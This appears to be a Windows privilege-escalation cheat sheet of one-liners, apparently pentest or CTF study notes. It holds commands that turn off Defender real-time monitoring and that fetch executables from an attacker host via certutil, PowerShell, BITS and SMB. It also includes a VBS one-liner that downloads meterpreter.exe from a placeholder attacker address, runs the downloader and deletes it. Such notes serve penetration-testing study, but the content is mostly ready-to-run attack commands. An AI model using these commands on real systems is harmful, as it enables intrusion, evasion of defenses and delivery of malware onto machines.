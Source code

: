 # Enum
whoami /priv  

## Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  

## Kernel exploits   
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   


# File Transfer  
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .   
copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe   

certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
  
## Powershell
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   
BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

## VBS 
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

 
  
# Resources
## Cheat Sheets
  https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
  
  
